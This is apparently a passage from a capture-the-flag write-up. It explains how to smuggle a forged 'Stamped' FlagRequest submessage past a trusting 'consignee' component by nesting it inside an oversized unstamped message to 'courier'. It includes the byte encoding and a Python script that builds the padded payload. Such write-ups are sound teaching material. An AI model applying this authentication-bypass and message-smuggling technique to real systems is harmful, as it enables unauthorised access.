We know that `consignee` does not check stamps and trusts that `courier` did
so. And we know that `consignee` can still reject a message sent to it from
`courier` in the case the message is of a size between `2^10` and `2^12`.
This also allows us to make `consignee` read a *sub*message from the body
of another *parent* message.

It is kind of obvious how this can be exploited, we need to send an `Unstamped`
message to `courier` of size `2^11` for example, and have in its body a
`Stamped` *sub*message for `consignee` with th `FlagRequest`.

The format of the `FlagRequest` message is as follows:
```rust
Stamped(
  StampedPackage {
    ctr: 0x0c, // arbitrary
    hmac: [0x0du8; 32], // arbitrary
    stamped_payload: Vec::from(
      [1u8] // Enum value for FlagRequest
    )
  }
)
```
Which is encoded to
```py
[
  0x01, # Enum value of Stamped
  0x0c, # ctr
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p1
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p2
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p3
  0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, # hmac p4
  0x01, # Count of next byte
  0x01  # Enum value of FlagRequest
]
```

So all we need to do is wrap this structure inside a long unstamped message that
`courier` naively thinks is a `HailstoneRequest`

We can do so with the following python script:
```py
message = list()

message += 'COURIERM'.encode() # Header of the first real message
message += [0x08, 0x00]        # 2^11 bytes message length
message += [0x00, 0x00]        # Unstamped HailstoneRequest
message += 'COURIERM'.encode() # Header for the fictional 2nd consignee message
message += [0x00, 0x24]        # 36 bytes message length

# Encoded fake stamped FlagRequest package
message += [0x01, 0x0c, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x0d, 0x01, 0x01]

print(len(message))
print(f'{bytes(message)}')
print('Adding 0s')

# The real message needs to be 2^11 + 10 bytes in length, so we pad with 0s
message += [0]*(2058-len(message))
```


[GoogleCTF 2022 for the Hardware *Weather*]: ../../GoogleCTF2022/Hardware-Weather/README.md